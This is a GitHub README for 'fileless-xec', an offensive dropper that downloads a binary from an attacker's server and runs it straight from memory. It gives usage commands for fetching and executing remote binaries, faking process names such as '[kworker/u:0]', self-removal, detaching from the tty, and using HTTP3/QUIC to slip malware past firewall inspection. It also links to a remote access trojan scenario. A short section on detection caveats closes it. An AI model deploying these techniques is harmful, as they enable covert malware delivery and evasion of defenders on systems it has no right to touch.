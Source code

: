 <h1 align=center> ➲ fileless-xec 🦜</h1>

<div align="center"><img src="https://github.com/ariary/fileless-xec/blob/main/img/fileless-small.png"></div>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
<br>

***Pentest use:*** `fileless-xec` is used on target machine to stealthy execute a binary file located on attacker machine



## ➲ Short story

`fileless-xec` enable us to execute a remote binary on a local machine directly from memory without dropping them on disk

**[➪ Install](https://github.com/ariary/fileless-xec/blob/main/install.md)**

 - simple usage `fileless-xec [binary_url]` (~`curl | sh` for binaries)
 - execute binary with specified program name: `fileless-xec -n /usr/sbin/sshd [binary_url]`
 - detach program execution from `tty`: ` setsid fileless-xec [...]` 

![demo](https://github.com/ariary/fileless-xec/blob/main/img/fileless-xec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to locally execute <code>writeNsleep</code> binary located on a remote machine. 

We first start a python http server on remote.
Locally we use <code>fileless-xec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun). Once writeNsleep started fileless-xec will delete itself (<code>--self-remove</code>)

</details>

### Other use cases

* [Execute binary with stdout/stdin](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-stdoutstdin)
* [Execute binary with arguments](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-arguments)
* [`fileless-xec` self remove](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-self-remove)
* [Bypass network restriction using ICMP](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-network-restriction-with-icmp)
* [Bypass firewall with HTTP3](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-firewall-with-http3)
* ["Remote go": execute go binaries without having go installed locally](https://github.com/ariary/fileless-xec/blob/main/usage.md#remote-go-execute-go-binaries-without-having-go-installed-locally)
* [Execute a shell script](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-a-shell-script)
* [`fileless-xec` server mode](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-server-mode)
  * [RAT (Remote Access Trojan) scenario](https://github.com/ariary/fileless-xec/blob/main/usage.md#rat-remote-access-trojan-scenario)
* [`fileless-xec` on windows](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-on-windows)


## ➲ Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support
* `fileless-xec` self removes once launched

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` we could exec a program, but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `fileless-xec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`fileless-xec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`setsid fileless-xec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```

Or also [`opensnoop`](https://github.com/brendangregg/perf-tools/blob/master/opensnoop) (but not by [`execsnoop`](https://github.com/brendangregg/perf-tools/blob/master/execsnoop))

Or seccomp profile auditing `execve` syscall (but it is very overwhelming as a `sleep` command also use execve)
